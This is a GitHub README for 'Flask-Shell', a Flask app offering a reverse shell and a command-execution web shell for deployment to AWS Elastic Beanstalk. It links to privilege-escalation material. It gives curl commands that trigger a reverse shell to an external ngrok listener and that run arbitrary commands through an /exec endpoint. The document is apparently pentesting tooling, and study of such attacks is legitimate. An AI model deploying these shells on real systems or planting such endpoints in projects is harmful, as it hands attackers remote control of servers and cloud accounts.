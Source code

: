 # Flask-Shell
This Contains Flask Web and Reverse Shell

## Execute Reverse Shell
### From Elastic Beanstalk

Modify the Host and Port from the reverse shell application.py to get shell in your listener. If publishing to Elastic BeanStalk you will automatically get a Shell, if configured the Host and Port of you listener properly. 

Else The Reverse Shell can be executed, by sending the following GET request with your desired listener Host and Port

```bash
curl "http://<your-elastic-beanstalk-URL>/reverse_shell?host=0.tcp.ap.ngrok.io&port=18996"
```

More Info:

https://cloud.hacktricks.wiki/en/pentesting-cloud/aws-security/aws-privilege-escalation/aws-elastic-beanstalk-privesc.html#elasticbeanstalkrebuildenvironment-s3-write-permissions--many-others

https://docs.aws.amazon.com/elasticbeanstalk/latest/dg/python-quickstart.html

### From Local Setup for Testing

Make changes to the Last Line as below to run on local server port 5000

```python
# Use the following if you're upload to Elastic BeanStalk or other such container
    # application.run(debug=True)
    # Use the following for local Testing
     application.run(host='0.0.0.0', port=5000)
```

Then run the following command from the same folder where the application.py and requirments.txt file exist to start the Flask server with the reverse shell.

```
# export FLASK_APP=application.py && flask run --port 5000
 * Serving Flask app 'application.py'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
```

And start your listener and execute the following URL, depending your listener host and port.

```bash
curl "http://127.0.0.1:5000/reverse_shell?host=127.0.0.1&port=4444"
```


## Execute Web Shell
### From Elastic Beanstalk

Upload and Publish the Web Shell Flask app, as your requirments needed. Find help from the following links.

More Info:

https://cloud.hacktricks.wiki/en/pentesting-cloud/aws-security/aws-privilege-escalation/aws-elastic-beanstalk-privesc.html#elasticbeanstalkrebuildenvironment-s3-write-permissions--many-others

https://docs.aws.amazon.com/elasticbeanstalk/latest/dg/python-quickstart.html

Execute command by Sending the Following GET Request

```bash
curl "http://<your-elastic-beanstalk-URL>/exec?command=ls%20-l"
```

### From Local Setup for Testing

Make changes to the Last Line as below to run on local server port 5000

```python
# Use the following if you're upload to Elastic BeanStalk or other such container
    # app.run(debug=True)
    # Use the following for local Testing
     app.run(host='0.0.0.0', port=5000)
```

Then run the following command from the same folder where the application.py and requirments.txt file exist to start the Flask server with the reverse shell.

```
# export FLASK_APP=application.py && flask run --port 5000
 * Serving Flask app 'application.py'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
```

And start your listener and execute the following URL, depending your listener host and port.

```bash
curl "http://127.0.0.1:5000/exec?command=ls%20-l"
```
